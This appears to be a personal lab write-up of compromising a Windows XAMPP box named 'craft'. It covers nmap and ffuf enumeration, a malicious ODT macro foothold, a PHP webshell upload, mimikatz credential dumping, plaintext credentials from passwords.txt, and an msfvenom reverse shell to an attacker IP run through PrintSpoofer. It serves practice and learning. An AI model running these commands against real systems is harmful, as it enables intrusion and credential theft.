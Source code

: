 ### Enumeration
```
IP=192.168.214.169
sudo nmap -sU -Pn $IP
sudo nmap -p- -vv -Pn $IP
sudo nmap -p80 -A $IP
```
### Ports 
- 80
	- Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
### Foothold
- 80
	- Default landing page
		- ![[Pasted image 20240709155721.png]]
		- ![[Pasted image 20240709155736.png]]
	- Fileupload
		- Tried to upload webshell.php
			- ![[Pasted image 20240709155805.png]]
		- Made fake test.odt
			- ![[Pasted image 20240709160929.png]]
			- ![[Pasted image 20240709160944.png]]
		- Tried
			- https://github.com/rodolfomarianocy/Evil-Macro
				- Create evil macro odt
				- No shell :(
				- https://0xdf.gitlab.io/2020/02/01/htb-re.html?source=post_page-----c92de878e004--------------------------------
					- Followed this
					- We have a shell
					- ![[Pasted image 20240709165332.png]]
					- ![[Pasted image 20240709165356.png]]
					- ![[Pasted image 20240709165404.png]]
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
			- `/assets/  /cgi-bin/printenv.pl  /js  /uploads/`
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
### PE
#### Windows
- `craft\thecybergeek
	- whoami /all
		- SeChangeNotifyPrivilege enabled
		- SeCreateGlobalPrivilege enabled
	- net user USERNAME
		- Check group memberships
		- nothing
	- systeminfo
		- Microsoft Windows Server 2019 Standard  10.0.17763 N/A Build 17763
		- x64
	- history
		- (Get-PSReadLineOption).HistorySavePath
			- type PATH
			- nothing
	- Users with console
		- apache
		- guest
		- administrator
		- thecybergeek
	- Unquoted
		- cmd
			- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
		- PS1
			- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
				- nothing interesting
		- icacls Filepath before .exe
			- Looking for W or F
	- mimkatz
		- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
		- mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
	- /xampp
		- /passwords.txt
			- mysql
				- root:NOTHING
			- mercury
				- newuser:wampp
			- webdav
				- xampp-dav-unsecure:ppmax2011
	- We have write access over `C:\xampp\htdocs
		- We upload webshell.php to directory. Then access it over port 80 to gain access as apache user
		- Use base64 ps1 to get rev shell
- `craft\apache`
	- whoami /all
		- SeImpersonatePrivilege enabled
			- ./PrintSpoofer64.exe -i -c cmd
				- Runs but closes
				- msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.195 LPORT=22 -f exe > rev.exe
				- Move to B
				- `./PrintSpoofer64.exe -c "C:\temp\rev.exe"
				- Now we have a root shell
		- SeCreateGlobalPrivilege enable
		- SeChangeNotifyPrivilege enabled
### Credentials
### Lessons Learned
- Learned how to use odt file. Definitely need to practice more
- Look at folder permissions and see what you can do. Can sometimes upload to directories that allow you to access another user. 